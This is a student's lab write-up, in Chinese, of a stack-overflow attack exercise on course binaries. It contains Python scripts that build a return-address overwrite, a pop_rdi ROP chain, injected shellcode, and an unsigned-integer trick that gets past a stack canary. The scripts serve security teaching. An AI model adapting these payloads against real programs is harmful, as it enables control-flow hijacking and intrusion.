





# 栈溢出攻击实验
杜宇瑄 2024201610

## 题目解决思路

### Problem 1: 
- **分析**： 问题出在func里面的strcpy，从%rbp-8开始写，要覆盖到%rbp+8的返回地址，一共要覆盖16字节
- **解决方案**：
```python
padding = b"A" * 16
func1_address = b"\x16\x12\x40\x00\x00\x00\x00\x00"
payload = padding+ func1_address
# Write the payload to a file
with open("ans1.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans1.txt")
```
- **结果**：

### Problem 2:
- **分析**：问题仍然出在func里的memcpy，但这次不能直接跳到func2，因为直接跳没有更新过%edi，不等于0x3f8。又注意到文件已经给出了pop_rdi，不难构造: 
    - 填充缓冲区
    - 调用pop_rdi(注意这里有用部分的地址实际是从0x4012c7开始)
    - 传入0x3f8
    - 返回func2
- **解决方案**：
```python
padding = b"A" * 16
func1_address = b"\xc7\x12\x40\x00\x00\x00\x00\x00"
value = b"\xf8\x03\x00\x00\x00\x00\x00\x00"
func2_address = b"\x16\x12\x40\x00\x00\x00\x00\x00"
payload = padding+ func1_address + value + func2_address
# Write the payload to a file
with open("ans2.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans2.txt")
```
- **结果**：

### Problem 3: 
- **分析**：func里存了一个当前%rsp的值，而jmp_xs取出这个值+0x10然后跳转，发现跳转位置正好就是我们的buffer的开头，于是直接写一段shellcode进去发现直接过了。
- **解决方案**：
```python
code = b"\xbf\x72\x00\x00\x00\x48\xb8\x16\x12\x40\x00\x00\x00\x00\x00\xff\xe0"
# mov $0x72,%edi
# movabs $0x401216,%rax
# jmp *%rax
padding = b"A" * 23
func1_address = b"\x34\x13\x40\x00\x00\x00\x00\x00"
payload = code + padding + func1_address 
# Write the payload to a file
with open("ans3.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans3.txt")
```
- **结果**：

### Problem 4: 
- **分析**：Problem4使用了canary机制，就是在保存的rbp值后面，通常是%rbp-8的位置，放一个哨兵值，通常是fs:0x28(线程本地存储，一个64位随机数，攻击者通常难以获取)，增大了攻击难度。但一码归一码，无法解决因为代码本身的逻辑问题导致的漏洞，比如problem4的无符号数操作。
- **解决方案**：输-1和4294967295都能过。
- **结果**：

## 思考与总结
比较简单，也许problem3还能拿其他方法做不过一时半会也想不太出来了。

## 参考资料
汇编码转机器码直接问的AI